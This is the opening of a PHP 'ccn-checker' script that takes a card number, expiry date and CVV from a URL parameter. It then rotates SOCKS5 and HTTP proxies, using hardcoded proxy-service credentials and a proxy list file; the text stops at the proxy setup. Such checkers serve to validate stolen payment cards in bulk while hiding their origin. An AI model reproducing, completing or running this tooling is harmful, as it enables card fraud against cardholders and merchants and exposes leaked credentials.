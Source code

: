 # ccn-checker
<?php

//Base edited by @HarryIsReborn0p
//=============================================[https://www.nyintergroup.org/quick-contribute/]==========================================//
error_reporting(0);
set_time_limit(0);
error_reporting(0);
date_default_timezone_set('America/Buenos_Aires');


function multiexplode($delimiters, $string)
{
  $one = str_replace($delimiters, $delimiters[0], $string);
  $two = explode($delimiters[0], $one);
  return $two;
}
$lista = $_GET['lista'];
$cc = multiexplode(array(":", "|", ""), $lista)[0];
$mes = multiexplode(array(":", "|", ""), $lista)[1];
$ano = multiexplode(array(":", "|", ""), $lista)[2];
$cvv = multiexplode(array(":", "|", ""), $lista)[3];

function GetStr($string, $start, $end)
{
  $str = explode($start, $string);
  $str = explode($end, $str[1]);
  return $str[0];
}
function proxy()
{
  $poxySocks = file("proxy.txt");
  $myproxy = rand(0, sizeof($poxySocks) - 1);
  $poxySocks = $poxySocks[$myproxy];
  return $poxySocks;
}
$poxySocks4 = proxy();

//////////////////////==============[Init Proxy Section]===============//////////////////////////////


$Websharegay = rand(0,10);

$rp1 = array(
  1 => 'tfmpitfq-rotate:3ommbboaq61f',
  2 => 'tfmpitfq-'.$Websharegay.':3ommbboaq61f',
    ); 
    $rpt = array_rand($rp1);
    $rotate = $rp1[$rpt];


$ip = array(
  1 => 'socks5://p.webshare.io:1080',
  2 => 'http://p.webshare.io:80',
    ); 
    $socks = array_rand($ip);
    $socks5 = $ip[$socks];
